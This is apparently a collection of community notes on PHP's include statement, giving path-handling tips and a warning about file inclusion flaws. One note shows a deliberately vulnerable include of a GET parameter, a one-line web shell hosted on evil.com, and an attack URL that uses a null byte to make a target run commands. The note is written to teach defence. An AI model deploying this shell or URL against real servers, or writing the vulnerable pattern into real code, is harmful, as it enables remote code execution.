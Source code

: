 # Security warning



This might be useful:<br>

```
<?php
include $_SERVER[&apos;DOCUMENT_ROOT&apos;]."/lib/sample.lib.php";
?>
```
<br>So you can move script anywhere in web-project tree without changes.  

#

If you want to have include files, but do not want them to be accessible directly from the client side, please, please, for the love of keyboard, do not do this:<br><br>

```
<?php

# index.php
define(&apos;what&apos;, &apos;ever&apos;);
include &apos;includeFile.php&apos;;

# includeFile.php

// check if what is defined and die if not

?>
```


The reason you should not do this is because there is a better option available. Move the includeFile(s) out of the document root of your project. So if the document root of your project is at "/usr/share/nginx/html", keep the include files in "/usr/share/nginx/src".



```
<?php

# index.php (in document root (/usr/share/nginx/html))

include __DIR__ . &apos;/../src/includeFile.php&apos;;

?>
```
<br><br>Since user can&apos;t type &apos;your.site/../src/includeFile.php&apos;, your includeFile(s) would not be accessible to the user directly.  

#

Before using php&apos;s include, require, include_once or require_once statements, you should learn more about Local File Inclusion (also known as LFI) and Remote File Inclusion (also known as RFI).<br><br>As example #3 points out, it is possible to include a php file from a remote server.<br><br>The LFI and RFI vulnerabilities occur when you use an input variable in the include statement without proper input validation.  Suppose you have an example.php with code:<br><br>

```
<?php
// Bad Code
$path = $_GET[&apos;path&apos;];
include $path . &apos;example-config-file.php&apos;;
?>
```


As a programmer, you might expect the user to browse to the path that you specify.

However, it opens up an RFI vulnerability.  To exploit it as an attacker, I would first setup an evil text file with php code on my evil.com domain.

evil.txt


```
<?php echo shell_exec($_GET[&apos;command&apos;]);?>
```
<br><br>It is a text file so it would not be processed on my server but on the target/victim server.  I would browse to:<br>h t t p : / / w w w .example.com/example.php?command=whoami&amp; path= h t t p : / / w w w .evil.com/evil.txt%00<br><br>The example.php would download my evil.txt and process the operating system command that I passed in as the command variable.  In this case, it is whoami.  I ended the path variable with a %00, which is the null character.  The original include statement in the example.php would ignore the rest of the line.  It should tell me who the web server is running as.<br><br>Please use proper input validation if you use variables in an include statement.  

#

I cannot emphasize enough knowing the active working directory. Find it by: echo getcwd();<br>Remember that if file A includes file B, and B includes file C; the include path in B should take into account that A, not B, is the active working directory.  

#

As a rule of thumb, never include files using relative paths. To do this efficiently, you can define constants as follows:<br><br>----<br>

```
<?php // prepend.php - autoprepended at the top of your tree
define(&apos;MAINDIR&apos;,dirname(__FILE__) . &apos;/&apos;);
define(&apos;DL_DIR&apos;,MAINDIR . &apos;downloads/&apos;);
define(&apos;LIB_DIR&apos;,MAINDIR . &apos;lib/&apos;);
?>
```

----

and so on. This way, the files in your framework will only have to issue statements such as this:



```
<?php
require_once(LIB_DIR . &apos;excel_functions.php&apos;);
?>
```


This also frees you from having to check the include path each time you do an include.

If you&apos;re running scripts from below your main web directory, put a prepend.php file in each subdirectory:

--


```
<?php
include(dirname(dirname(__FILE__)) . &apos;/prepend.php&apos;);
?>
```
<br>--<br><br>This way, the prepend.php at the top always gets executed and you&apos;ll have no path handling headaches. Just remember to set the auto_prepend_file directive on your .htaccess files for each subdirectory where you have web-accessible scripts.  

#

[Official documentation page](https://www.php.net/manual/en/function.include.php)

**[To root](/README.md)**